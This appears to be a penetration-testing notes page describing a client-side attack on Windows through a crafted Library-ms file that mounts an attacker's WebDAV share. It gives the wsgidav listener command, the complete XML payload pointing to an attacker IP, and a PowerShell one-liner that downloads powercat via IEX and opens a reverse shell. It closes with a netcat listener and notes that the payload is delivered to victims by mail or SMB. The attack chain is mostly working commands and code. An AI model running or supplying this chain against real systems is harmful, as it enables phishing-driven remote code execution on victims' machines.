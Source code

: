 With Windows libraries we can craft client-side attacks on Windows. We can serve this configuration for a WebDav mount on the victim's computer. First we start or WebDav listener in the Kali machine with

```shell
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

We can craft the following `config.Library-ms` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<ATTACKER-IP></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Then we can upload to the WebDAV a malicious **Windows Shortcut** file (lnk file) that points to the attacker malicious ip that servers a malicious exe for a reverseshell, like [powercat](https://github.com/besimorhino/powercat). In this section, a simple reverse shell won't work, but we have to use some webserver (like python webserver) with the executable available. Something like that could work for Windows 10/11

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKER-IP:WEBPORT/powercat.ps1');
powercat -c ATTACKER-IP-NETCAT -p NETCAT-PORT -e powershell"
```

We copy inside the WebDAV the the link of the powershell command previously created and also the **config-Library.ms** file that we will send to the victim as the payload (via MAIL, SMB, etc...).

with our netcat listener on the attacker side.

```shell
nc -lvp NETCAT-PORT
```